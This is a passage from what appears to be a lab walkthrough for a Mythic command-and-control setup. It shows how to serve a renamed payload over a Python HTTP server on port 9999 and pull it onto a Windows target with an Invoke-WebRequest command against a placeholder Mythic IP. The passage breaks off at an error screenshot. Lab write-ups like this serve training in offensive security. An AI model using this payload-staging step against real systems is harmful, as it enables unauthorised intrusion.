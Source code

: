 - After renaming the file let’s keep it separte from other file as it is a payload for our target.

![rename-payload.png](/assets/Attack-scene/rename-payload.png){: width="500" height="300" }

- From the folder where we moved our payload. Start the http server with 9999 port.

`#python3 -m http.server 9999`

![start-server.png](/assets/Attack-scene/start-server.png){: width="500" height="300" }

- Now, lets go to kali freerdp windows server and try accessing the download from the http server.

`>Invoke-WebRequest -Uri http://<Mythic-IP>:9999/<payload-file-name> -OutFile “<Path-To-Save-File>”`

![invoke-error.png](/assets/Attack-scene/invoke-error.png){: width="500" height="300" }
